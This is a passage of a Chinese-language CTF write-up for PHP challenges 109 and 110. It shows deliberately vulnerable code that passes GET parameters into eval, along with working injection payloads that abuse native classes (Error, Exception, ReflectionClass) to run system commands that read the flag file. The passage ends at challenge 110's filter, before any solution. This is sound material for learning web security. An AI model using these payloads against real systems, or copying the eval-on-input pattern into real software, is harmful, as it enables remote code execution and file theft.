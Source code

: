 ```
?c=a%00778
```

## 109-php原生类

```php
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }
}
```

这里加了`error_reporting(0);`
所以看不到报错，在本地试试就会看到报错了
随便只要能成功new一个类出来，就可以构造闭合rce了
这里因为要echo出来，用带有`_toString`的php原生类就可以了：
Error、Exception

```
?v1=Error();system('tac f*');?>&v2=a
?v1=Exception();system('tac f*');?>&v2=a
```

> hint的做法：
> // 利用php异常处理类 http://c.biancheng.net/view/6253.html
>
> ```
> ?v1=Exception&v2=system('cat fl36dg.txt')
> ?v1=Reflectionclass&v2=system('cat fl36dg.txt')
> ```

## 110-FilesystemIterator

```php
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }

    eval("echo new $v1($v2());");

}
```
